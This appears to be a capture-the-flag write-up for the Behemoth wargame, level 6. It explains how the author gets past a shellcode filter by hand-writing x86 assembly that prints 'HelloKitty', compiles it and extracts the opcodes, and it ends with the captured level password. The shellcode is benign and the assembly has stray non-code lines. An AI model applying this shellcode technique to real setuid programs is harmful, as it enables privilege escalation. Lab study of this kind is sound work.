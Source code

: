 we see in disassebmly of behemoth6 that if strcmp is true we get shell  
we see that it comperes to:  
HelloKitty ==  
and we see that behemoth6 executes behemoth6_reader  
so we go to behemoth6_reader:  
we see call *%eax --> executing our code from shellcode.txt  
writing in c, it says: write your own shellcode  
we dig in and see that if we use 0x0b in our code it says: write your own   
shellcode, so we have to write in assembly:
```assembly
[SECTION .text]

global _start

_start:
    jmp short getmsg

printmsg:
    xor eax,eax
    xor ebx,ebx
    xor ecx,ecx
    xor edx,edx
    printing "HelloKitty";
    mov al, 0x4
    mov bl, 0x1
    pop ecx
    mov dl, 0xa
    int 0x80

    printing "\n";
    xor eax, eax
    mov al, 0x1
    xor ebx,ebx
    int 0x80

getmsg:
    call printmsg
    db 'HelloKitty', '$'
```
we compile that asm:
```sh
nasm -f elf kitty.asm -o kitty.o
ld -m elf_i386 kitty.o -o kitty
```

we try that, but still get write your own shellcode
so we cat it and see additional information about the run env that we dont 
need, so we copy just the opcodes with objdump -d kitty and echoing the opcodes

at last, it works and we get:
baquoxuafo
